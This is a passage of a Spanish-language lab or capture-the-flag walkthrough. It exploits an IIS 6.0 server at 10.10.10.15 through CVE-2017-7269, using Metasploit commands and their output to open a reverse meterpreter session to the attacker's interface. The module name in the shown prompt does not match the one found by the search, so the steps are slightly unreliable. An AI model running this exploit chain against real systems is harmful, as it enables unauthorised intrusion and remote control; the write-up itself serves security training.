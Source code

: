 
Y al ejecutar "services":
```
msf6 > services
```

Salida:
```shell-session
Services
========

host         port  proto  name  state  info
----         ----  -----  ----  -----  ----
10.10.10.15  80    tcp    http  open   Microsoft IIS httpd 6.0
```

Haciendo una búsqueda rápida por internet "Microsoft IIS httpd 6.0 exploit", observo que existe un CVE asociado llamado: *CVE-2017-7269*.
Pues, en msfconsole ejecuto:
```
search 2017-7269
```
Obteniendo la salida:
```
Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/iis/iis_webdav_scstoragepathfromurl  2017-03-26       manual  Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow

```

Vamos a utilizar dicho módulo y consultaremos sus opciones:
```
use 0
options
```

Establecemos un RHOST y LHOST válido y le damos a run:
```shell-session
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOST 10.10.10.15
RHOST => 10.10.10.15

msf6 exploit(windows/iis/iis_webdav_upload_asp) > set LHOST tun0
LHOST => tun0

msf6 exploit(windows/iis/iis_webdav_upload_asp) > run
```

Y con esto, entablamos una conexión meterpreter.

## Comandos básicos de meterpreter
